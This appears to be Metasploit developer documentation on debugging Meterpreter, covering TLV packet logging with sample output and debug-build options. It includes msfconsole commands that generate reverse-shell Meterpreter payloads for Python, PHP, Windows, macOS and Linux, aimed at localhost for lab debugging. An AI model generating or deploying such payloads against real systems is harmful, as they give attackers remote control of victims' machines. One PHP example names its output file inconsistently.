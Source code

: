 There are currently two main ways to debug Meterpreter sessions:

1. Log all networking requests between msfconsole and Meterpreter, i.e. TLV Packets
2. Generate a custom Meterpreter debug build with extra logging present

## Log Meterpreter TLV Packets

This can be enabled for any Meterpreter session, and does not require a debug Metasploit build:

```msf
msf > setg SessionTlvLogging true
SessionTlvLogging => true
```

Allowed values:

- `setg SessionTlvLogging true` - Enable network logging, defaulting to console
- `setg SessionTlvLogging false` - Disable all network logging
- `setg SessionTlvLogging console` - Log to the current msfconsole instance
- `setg SessionTlvLogging file:/tmp/session.txt` - Write the network traffic logs to an arbitrary file

Example output:

```
meterpreter > getenv USER

SEND: #<Rex::Post::Meterpreter::Packet type=Request         tlvs=[
  #<Rex::Post::Meterpreter::Tlv type=COMMAND_ID      meta=INT        value=1052 command=stdapi_sys_config_getenv>
  #<Rex::Post::Meterpreter::Tlv type=REQUEST_ID      meta=STRING     value="73717259684850511890564936718272">
  #<Rex::Post::Meterpreter::Tlv type=ENV_VARIABLE    meta=STRING     value="USER">
]>

RECV: #<Rex::Post::Meterpreter::Packet type=Response        tlvs=[
  #<Rex::Post::Meterpreter::Tlv type=UUID            meta=RAW        value="Q\xE63_onC\x9E\xD71\xDE3\xB5Q\xE24">
  #<Rex::Post::Meterpreter::Tlv type=COMMAND_ID      meta=INT        value=1052 command=stdapi_sys_config_getenv>
  #<Rex::Post::Meterpreter::Tlv type=REQUEST_ID      meta=STRING     value="73717259684850511890564936718272">
  #<Rex::Post::Meterpreter::Tlv type=RESULT          meta=INT        value=0>
  #<Rex::Post::Meterpreter::GroupTlv type=ENV_GROUP       tlvs=[
    #<Rex::Post::Meterpreter::Tlv type=ENV_VARIABLE    meta=STRING     value="USER">
    #<Rex::Post::Meterpreter::Tlv type=ENV_VALUE       meta=STRING     value="demo_user">
  ]>
]>

Environment Variables
=====================

Variable  Value
--------  -----
USER      demo_user
```

## Meterpreter debug builds

The following options can be specified when generating Meterpreter payloads:

- `MeterpreterDebugBuild` - When set to `true`, the generated Meterpreter payload will have additional logging present
- `MeterpreterDebugLogging` - Configure the logging mode. This currently only allows writing to a file on the remote host. Requires `MeterpreterDebugBuild` to be set to true. Example value: `setg MeterpreterDebugLogging rpath:/tmp/meterpreter_log.txt`
- `MeterpreterTryToFork` - When set to `true` the Meterpreter payload will try to fork from the currently running process. Setting to `false` is useful to see any `stdout` logging that occurs

The debug build will have additional log statements, which can be easily detected. These debug builds are useful for scenarios where A/V is not running, in local labs for learning purposes, or raising Metasploit issue reports etc.

### Python

```
use payload/python/meterpreter_reverse_tcp
generate -o shell.py -f raw lhost=127.0.0.1 MeterpreterDebugBuild=true MeterpreterTryToFork=false
to_handler

python3 shell.py
```

### PHP

```
use payload/php/meterpreter_reverse_http
generate -o shell.php -f raw lhost=127.0.0.1 MeterpreterDebugBuild=true
to_handler

php shell_http.php
```

### Windows

```
use windows/x64/meterpreter_reverse_tcp
generate -f exe -o shell.exe MeterpreterDebugBuild=true MeterpreterDebugLogging='rpath:C:/Windows/Temp/foo.txt'

to_handler
```

### Mac

```
use osx/x64/meterpreter_reverse_tcp
generate -f macho -o shell MeterpreterDebugbuild=true MeterpreterDebugLogging='rpath:/tmp/foo.txt'

to_handler
```

### Linux

```
use linux/x64/meterpreter_reverse_tcp
generate -f elf -o shell MeterpreterDebugbuild=true MeterpreterDebugLogging='rpath:/tmp/foo.txt'

to_handler
```

### Java

Functionality not supported
